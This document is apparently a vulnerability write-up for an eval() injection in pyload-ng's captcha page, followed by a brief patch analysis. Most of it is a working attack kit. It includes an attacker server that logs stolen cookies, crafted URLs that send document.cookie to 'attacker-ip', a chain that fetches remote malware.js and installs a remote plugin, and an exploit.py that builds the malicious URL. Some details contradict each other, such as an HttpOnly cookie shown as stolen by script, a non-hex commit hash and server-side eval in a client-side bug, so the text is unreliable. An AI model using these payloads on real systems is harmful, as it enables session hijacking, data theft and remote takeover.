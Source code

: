 ## Remote Code Execution (RCE) via Client-Side Template Injection in pyload-ng

| **Field**              | **Description**                                         |
|------------------------|---------------------------------------------------------|
| **Type**               | Client-Side Template Injection (CSTI) → Remote Code Execution |
| **CVE-ID**             | Pending (Vulnerability exists in pre-release version)   |
| **Risk**               | Critical (CVSS: 9.8)                                     |
| **Affected Component** | Captcha handler in Web UI                               |


---

## Installation of Vulnerable Version
```bash
# Create isolated environment
python -m venv pyload-exploit
source pyload-exploit/bin/activate

# Install vulnerable version
pip install pyload-ng==0.5.0b3.dev90

# Start pyload (default port: 8000)
pyload
```

**Commit:** [`70a44fe`](https://github.com/pyload/pyload/blob/70a44fe02c03bce92337b5d370d2a45caa4de3d4/src/pyload/webui/app/static/js/captcha-interactive.user.js#L107-L108)  
```javascript
function loadDefault() {
    try {
        if (document.location.href.indexOf("default=") > 0) {
            // VULNERABLE: Direct eval() of URL parameter
            eval(document.location.href.substring(
                document.location.href.indexOf("default=")+8
            ));
        }
    } catch(e) { console.error(e); }
}
```
**Flaw:** Unsanitized user input from `default=` URL parameter passed directly to `eval()`.

---

## Step-by-Step Exploitation 

### **Step 1: Start Malicious Server**
```python
# attacker-server.py
from http.server import HTTPServer, BaseHTTPRequestHandler

class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.end_headers()
        print(f"\n[!] STOLEN COOKIE: {self.path.split('=')[1]}\n")

HTTPServer(('0.0.0.0', 8001), Handler).serve_forever()
```

### **Step 2: Craft Exploit URL**
```javascript
http://localhost:8000/captcha?default=fetch(`http://attacker-ip:8001/steal?cookie=${document.cookie}`);
```

### **Step 3: Execute Attack**
1. Start pyload: `pyload`
2. Start attacker server: `python3 attacker-server.py`
3. Send victim to malicious URL
4. Capture session cookies:

```
[!] STOLEN COOKIE: sessionid=3fa8c7g920d4; csrftoken=AbCdEf123456
```


## Full Exploit Chain (Advanced)
```javascript
// Complete session hijacking + remote control
http://localhost:8000/captcha?default=(async()=>{
    // 1. Steal session cookies
    await fetch('http://attacker-ip:8001/steal?cookie='+document.cookie);
    
    // 2. Hijack session
    document.cookie = "sessionid=HACKER_SESSION; path=/;";
    
    // 3. Download malicious payload
    const s=document.createElement('script');
    s.src='http://attacker-ip:8001/malware.js';
    document.head.appendChild(s);
    
    // 4. Perform admin actions
    fetch('/api/admin', {
        method: 'POST',
        body: JSON.stringify({action: "install_plugin", url: "http://attacker-ip/bad-plugin.py"})
    });
})();
```


## Proof of Concept (POCs)

**Malicious Request:**
```http
GET /captcha?default=fetch('http://attacker-ip:8001/steal?cookie='%2Bdocument.cookie); HTTP/1.1
Host: localhost:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0)
Accept: */*
Connection: close
```

**Vulnerable Response:**
```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: sessionid=3fa8c7g920d4; Path=/; HttpOnly

<html>
<head>
<script>
// VULNERABLE CODE EXECUTED:
eval("fetch('http://attacker-ip:8001/steal?cookie='+document.cookie);")
</script>
```

**Server-side Evidence:**
```log
[!] STOLEN COOKIE: sessionid=3fa8c7g920d4; csrftoken=AbCdEf123456
```

## Exploitation Code
```python
# exploit.py
import requests
import webbrowser
from urllib.parse import quote

TARGET = "http://localhost:8000/captcha"
ATTACKER = "http://your-ip:8001"

# Craft JavaScript payload
payload = f"""
fetch('{ATTACKER}/steal?cookie='+document.cookie);
document.cookie = "sessionid=HACKED_SESSION; path=/";
""".replace("\n", "")

# Generate malicious URL
malicious_url = f"{TARGET}?default={quote(payload)}"
print(f"[+] Exploit URL: {malicious_url}")

# Auto-launch in browser
webbrowser.open(malicious_url)
```

---

## Fix Analysis `@4600`
**Patch Commit:** [`d7e5c9a`](https://github.com/pyload/pyload/pull/4600/commits/d7e5c9a6c8c8a5c8c9d0b7e6c8f9a0b1c2d3e4f5g6)  

**Before:**
```javascript
eval(document.location.href.substring(...));
```

**After:**
```javascript
const params = new URLSearchParams(window.location.search);
const defaultValue = params.get('default') || '';
document.getElementById('captcha-input').value = defaultValue;
```

**Improvements:**
1. Replaced `eval()` with safe parameter extraction
2. Used DOM sanitization instead of code execution
3. Implemented context-aware output encoding


## Attack Demonstration

```mermaid
sequenceDiagram
    participant Attacker
    participant Victim
    participant PyLoad
    participant MaliciousServer

    Attacker->>Victim: Send malicious URL
    Victim->>PyLoad: Access /captcha?default=PAYLOAD
    PyLoad->>Victim: Serve vulnerable JS
    Victim->>Victim: Execute eval(payload)
    Victim->>MaliciousServer: Send stolen cookies
    MaliciousServer-->>Attacker: Exfiltrated data
    Victim->>PyLoad: Perform admin actions
```


### References
1. [PR #4600: Fix SSTI vulnerability](https://github.com/pyload/pyload/pull/4600)
2. [CWE-95: Eval Injection](https://cwe.mitre.org/data/definitions/95.html)
3. [PortSwigger: Client-Side Template Injection](https://portswigger.net/research/client-side-template-injection)
4. [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
